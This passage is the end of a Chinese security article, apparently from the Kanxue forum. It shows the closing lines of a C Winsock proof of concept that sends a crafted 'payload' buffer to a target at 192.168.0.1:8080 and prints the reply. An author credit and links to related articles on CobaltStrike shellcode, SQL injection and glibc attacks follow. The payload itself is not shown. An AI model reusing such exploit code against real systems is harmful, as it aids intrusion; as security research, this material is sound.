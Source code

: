 ```
    sockaddr_in sock_addr;
    sock_addr.sin_family = AF_INET;
    sock_addr.sin_port = htons(8080);
    sock_addr.sin_addr.S_un.S_addr = inet_addr("192.168.0.1");
    //
    int nErrCode = 0;
    int_ret = connect(sock_client, (sockaddr*)&sock_addr, sizeof(sockaddr_in));
    //
    send(sock_client, str_payload_final, strlen(str_payload_final), 0);
    //
    Sleep(20);
    recv(sock_client, str_recv, sizeof(str_recv), 0);
    printf("[-]Recv: %s\n", str_recv);
 
    printf("[+]Finished!\n");
    closesocket(sock_client);
    WSACleanup();
    //
    return 0;
}
```  
  
  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8F2cHjnDqHrjYibMZy4UJNkWNVvWtpNnVyAlH2Cy5s7iafQvhlIV31MmKIcfQudKOkmyNkN45lsgzIw/640?wx_fmt=png "")  
  
  
**看雪ID：okCryingFish**  
  
https://bbs.pediy.com/user-home-780653.htm  
  
*本文由看雪论坛 okCryingFish 原创，转载请注明来自看雪社区  
  
  
[](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458458572&idx=3&sn=f4516c969b2a0919f9ed1d3053ca6f0a&chksm=b18e294686f9a050bd0e9d9ca8309de05ae9c06af6c162ba1fa2f1e98ddeb7407fa81b3b4e57&scene=21#wechat_redirect)  
  
  
  
**#****往期推荐**  
  
1.[CobaltStrike ShellCode详解](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458460264&idx=1&sn=52e25757888a3df53e8c6d01c7a0229d&chksm=b18e10e286f999f4d1377a09747bfcb8f2ec5dc8ee757c1e69d5b198403571dd9b5386531ad9&scene=21#wechat_redirect)  
  
  
2.[Android APP漏洞之战——SQL注入漏洞初探](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458460061&idx=1&sn=ce272d6b2b2f839d7eeeb2896eb90ee5&chksm=b18e2f1786f9a60139d90f95e9442cc01b6f218f6bd47045dbdeb25d946d7427ba16c9c24cd9&scene=21#wechat_redirect)  
  
  
3.[House of apple 一种新的glibc中IO攻击方法](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458459847&idx=1&sn=f4afaf30634e626ce539023d1de675fe&chksm=b18e2e4d86f9a75bf414e6332f9cfb5601fffe6f3388d5810971b0e92738fe640552ea889841&scene=21#wechat_redirect)  
  